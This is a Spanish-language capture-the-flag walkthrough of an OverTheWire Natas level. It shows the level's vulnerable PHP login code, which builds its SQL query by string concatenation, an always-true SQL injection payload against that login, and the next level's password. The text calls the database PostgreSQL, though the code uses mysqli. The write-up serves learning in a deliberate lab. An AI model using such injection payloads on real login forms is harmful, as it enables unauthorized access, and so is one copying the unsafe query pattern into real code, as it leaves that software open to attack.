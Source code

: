 Si inspeccionamos el HTML, que ahora que hay ingresar un usuario y una
contraseña. Obtenemos el código y notamos que el usuario y la contraseña se
validan en una base de datos PostgreSQL.

```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
```

Debemos armar un usuario y contraseña tal que siempre de cierto, sin importar
las tuplas de la tabla:

```MySQL
SELECT * from users where username="user" and password="pass" OR 1 OR ""
```

Debido a que `1` se evalua como verdadero, la consulta devolverá todos los
usuarios. Luego, podemos armar el request:`username=user&password=pass" OR 1 OR "`

Al enviar el formulario, obtendremos la contraseña para el siguiente nivel:

```text
Successful login! The password for natas15 is
TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
```
